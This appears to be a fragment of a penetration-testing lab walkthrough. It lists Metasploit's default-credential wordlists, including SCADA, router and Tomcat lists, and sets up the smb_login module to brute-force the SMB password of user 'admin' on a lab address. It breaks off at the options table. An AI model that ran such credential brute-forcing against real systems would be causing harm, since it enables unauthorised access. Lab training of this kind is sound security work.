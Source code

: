 ```
-rw-r--r-- 1 root root     31 Apr 18  2019 postgres_default_pass.txt
-rw-r--r-- 1 root root     22 Apr 18  2019 postgres_default_user.txt
-rw-r--r-- 1 root root     78 Apr 18  2019 postgres_default_userpass.txt
-rw-r--r-- 1 root root    644 Apr 18  2019 root_userpass.txt
-rw-r--r-- 1 root root   7023 Apr 18  2019 routers_userpass.txt
-rw-r--r-- 1 root root  17095 Apr 18  2019 rpc_names.txt
-rw-r--r-- 1 root root     36 Apr 18  2019 rservices_from_users.txt
-rw-r--r-- 1 root root    117 Apr 18  2019 sap_common.txt
-rw-r--r-- 1 root root    448 Apr 18  2019 sap_default.txt
-rw-r--r-- 1 root root  13719 Apr 18  2019 sap_icm_paths.txt
-rw-r--r-- 1 root root    816 Apr 18  2019 scada_default_userpass.txt
-rw-r--r-- 1 root root    217 Apr 18  2019 sensitive_files.txt
-rw-r--r-- 1 root root    176 Apr 18  2019 sensitive_files_win.txt
-rw-r--r-- 1 root root   3838 Apr 18  2019 sid.txt
-rw-r--r-- 1 root root    844 Apr 18  2019 snmp_default_pass.txt
-rw-r--r-- 1 root root   3426 Apr 18  2019 tftp.txt
-rw-r--r-- 1 root root     47 Apr 18  2019 tomcat_mgr_default_pass.txt
-rw-r--r-- 1 root root    132 Apr 18  2019 tomcat_mgr_default_userpass.txt
-rw-r--r-- 1 root root     37 Apr 18  2019 tomcat_mgr_default_users.txt
-rw-r--r-- 1 root root   7883 Apr 18  2019 unix_passwords.txt
-rw-r--r-- 1 root root    781 Apr 18  2019 unix_users.txt
-rw-r--r-- 1 root root      9 Apr 18  2019 vnc_passwords.txt
-rw-r--r-- 1 root root 575885 Apr 18  2019 vxworks_collide_20.txt
-rw-r--r-- 1 root root 229871 Apr 18  2019 vxworks_common_20.txt
```

Brute for the password of user `admin`, use `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt` dictionary.

```
msf5 auxiliary(scanner/smb/smb_login) > show options

Module options (auxiliary/scanner/smb/smb_login):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   ABORT_ON_LOCKOUT   false            yes       Abort the run when an account lockout is detected
   BLANK_PASSWORDS    false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED   5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS       false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS        false            no        Add all passwords in the current database to the list
   DB_ALL_USERS       false            no        Add all users in the current database to the list
   DETECT_ANY_AUTH    false            no        Enable detection of systems accepting any authentication
   DETECT_ANY_DOMAIN  false            no        Detect if domain is required for the specified user
   PASS_FILE                           no        File containing passwords, one per line
   PRESERVE_DOMAINS   true             no        Respect a username that contains a domain name.
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RECORD_GUEST       false            no        Record guest-privileged random logins to the database
   RHOSTS             192.238.101.3    yes       The target address range or CIDR identifier
   RPORT              445              yes       The SMB service port (TCP)
   SMBDomain          .                no        The Windows domain to use for authentication
   SMBPass                             no        The password for the specified username
   SMBUser                             no        The username to authenticate as
   STOP_ON_SUCCESS    false            yes       Stop guessing when a credential works for a host
   THREADS            1                yes       The number of concurrent threads
   USERPASS_FILE                       no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS       false            no        Try the username as the password for all users
```